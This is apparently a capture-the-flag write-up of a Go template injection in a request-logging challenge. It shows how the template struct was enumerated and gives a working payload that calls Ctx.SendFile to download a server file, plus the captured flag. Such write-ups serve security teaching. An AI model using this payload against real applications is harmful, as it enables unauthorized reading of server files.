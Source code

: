 # Request Bin

The challenge starts with a simple page where you can insert your custom
format for your access.log output.  
Each time you submit a format template, it will generate a custom endpoint for
your request where you can see your format in action.

Such an endpoint looks like this: `/logs/jscEcebayJ`

The exploit exists in the Golang templating, which results in a classic SSTI.
It is not as powerful as a  
python-flask SSTI but it can be used if the right variables are passed to our
template.

A normal template looks like this in golang:

```go  
data := struct {  
   Title string  
}{"test title"}  
et, err := template.New("example").Parse("<h1>{{ .Title }}</h1>")  
if err != nil {  
   panic(err)  
}  
err = et.Execute(os.Stdout, data)  
```

Which will print `<h1>test title</h1>`. So far nothing new, we can access
variables which we pass to the templating mechanism.  
But the go templates can go even further, it's possible to call public
functions of the passed variable struct.

A public function can be detected by the first character in the name of the
function. If it's uppercase, it's public. If it's lowercase, it's private.  
A function for a struct can be found in the following format:

```golang  
type Example struct {  
   Title string  
}  
func (rp *Example) TestPublicFunction() {

}  
func (rp *Example) testPrivateFunction() {

}  
```

But there are some limitations to the calling of such functions. The function
needs to fit specific criteria.  
It needs to return one value and an optional error. Example, what is possible:

```golang  
type Example struct {  
   Title string  
}

func (rp *Example) TestPublicFunction()  { // Not Possible  
   ...  
}  
func (rp *Example) TestPublicFunction() error { // Possible  
   ...  
}  
func (rp *Example) TestPublicFunction() int { // Possible  
   ...  
}  
func (rp *Example) TestPublicFunction() (int, error) { // Possible  
   ...  
}  
func (rp *Example) TestPublicFunction() (int, int, error) { // Not Possible  
   ...  
}  
```

After it is clear what is in the scope, we need to find out what object/struct
is passed to the templating.  
We found out to run it locally and try a variable argument which can't exist.

```html  
{{ .PwnProphecy1234 }}  
```

And we will see in our logs that we got the following error:

```  
accesslog: template: :1:3: executing "" at <.PwnProphecy1234>: can't evaluate
field PwnProphecy1234 in type *accesslog.Log  
```

So we know that we have the struct `accesslog.Log` in front of us.  
Now let's see what variables and functions are around.

Variables:  
```  
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`  
	Now time.Time `json:"-" yaml:"-" toml:"-"`  
	TimeFormat string `json:"-" yaml:"-" toml:"-"`  
	Timestamp int64 `json:"timestamp" csv:"timestamp"`  
	Latency time.Duration `json:"latency" csv:"latency"`  
	Code int `json:"code" csv:"code"`  
	Method string `json:"method" csv:"method"`  
	Path   string `json:"path" csv:"path"`  
	IP string `json:"ip,omitempty" csv:"ip,omitempty"`  
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`  
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`  
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`  
	Request  string `json:"request,omitempty" csv:"request,omitempty"`  
	Response string `json:"response,omitempty" csv:"response,omitempty"`  
	BytesReceived int `json:"bytes_received,omitempty" csv:"bytes_received,omitempty"`  
	BytesSent     int `json:"bytes_sent,omitempty" csv:"bytes_sent,omitempty"`  
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`  
```

Functions:  
```  
func (l *Log) Clone() Log  
func (l *Log) RequestValuesLine() string  
func (l *Log) BytesReceivedLine() string  
func (l *Log) BytesSentLine() string  
```

After a brief experiment, we can see that most variable types have no effect;
strings, ints, and so on.  
The list of functions is also not useful, so we concentrate on the variables
and their functions.

After a reduction of the variables, we have the following left:

```  
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`  
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`  
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`  
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`  
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`  
```

Now the time-consuming task was to iterate over the types and find out what
functions and variables they contained.  
To reduce the size of the writeup, we can say we reduced the possibility of an
attack to the following struct:

```  
Ctx *context.Context  
```

This variable/struct contains a function:

```  
func (ctx *Context) SendFile(src string, destName string) error  
```

which is used to send a file from the server to the client. This can be used
to extract the flag.

We can build it in our Golang template once we know the entire call path
`Ctx-> SendFile`.

```  
{{ .Ctx.SendFile "/flag" "result.txt"}}  
```

When we put that into the form and submit it, we get a download of /flag which
contains the flag according to the dockerimage:

```  
<nil>we{f3ae92c8-0d8d-4072-ae37-ca3717842238@N3verTh0ughtG0HA3Tmp1Injec=t19n}  
```

Original writeup
(https://github.com/PwnProphecy/ctf/blob/main/wectf-2022/RequestBin.md).